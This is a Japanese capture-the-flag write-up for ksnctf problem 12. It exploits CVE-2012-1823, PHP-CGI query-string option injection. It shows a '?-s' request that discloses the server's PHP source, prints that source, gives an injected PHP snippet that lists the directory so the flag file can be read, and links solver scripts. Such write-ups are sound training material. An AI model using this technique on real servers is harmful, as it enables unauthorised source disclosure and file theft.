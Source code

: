 ## [12. Hypertext Preprocessor](http://ksnctf.sweetduet.info/problem/12)

アクセスすると、なにやら数字が並んでいる。
ページのタイトルが "Clock" で、数字にも日付らしき部分が含まれている。
また、ページを更新するとこの部分の表示も進むようだ。

しかし、年らしき部分の前にも数字の列 "2012:1823" があり、これが何なのか分からない。
そこでググってみると、CVE-2012-1823 が存在し、[徳丸浩氏による解説](https://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html) を見ると、本問に使えそうなことが分かる。
URLで指定するクエリによってPHPのオプションを指定できるようだ。

例えばPHPコードを表示する `-s` オプションを指定するため `http://ctfq.sweetduet.info:10080/~q12/index.php?-s` にアクセスすると、次のレスポンスを得る。

```php
 <?php

    //  Flag is in this directory.

    date_default_timezone_set('UTC');

    $t = '2012:1823:20:';
    $t .= date('y:m:d:H:i:s');
    for($i=0;$i<4;$i++)
        $t .= sprintf(':%02d',mt_rand(0,59));
?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Clock</title>
    <style>
      body
      {
        background: black;
      }
      p
      {
        color: red;
        font-size: xx-large;
        font-weight: bold;
        text-align: center;
        margin-top: 200px;
      }
    </style>
  </head>
  <body>
    <p><?php echo $t; ?></p>
  </body>
</html>
```

`Flag is in this directory.` とのことなので、CVE-2012-1823を利用してファイルを読めばよさそうだ。
具体的な手法は上述の徳丸浩氏による解説サイトに詳しい。

まず、ファイル名を得るためにディレクトリのエントリを読む。

```php
<?php

$res_dir = opendir('.');
while ($file_name = readdir($res_dir)) {
    print "{$file_name}\n";
}
closedir($res_dir);

?>
```

するとflagが格納されていそうなファイル名が得られるので、今度は `readfile()` で読めばよい。

* [Rust版](https://github.com/ordovicia/ksnctf/blob/master/12-Hypertext_Preprocessor/solve)
    * [cargo-script](https://github.com/DanielKeep/cargo-script) で実行できる。
* [Python版](https://github.com/ordovicia/ksnctf/blob/master/12-Hypertext_Preprocessor/solve.py)
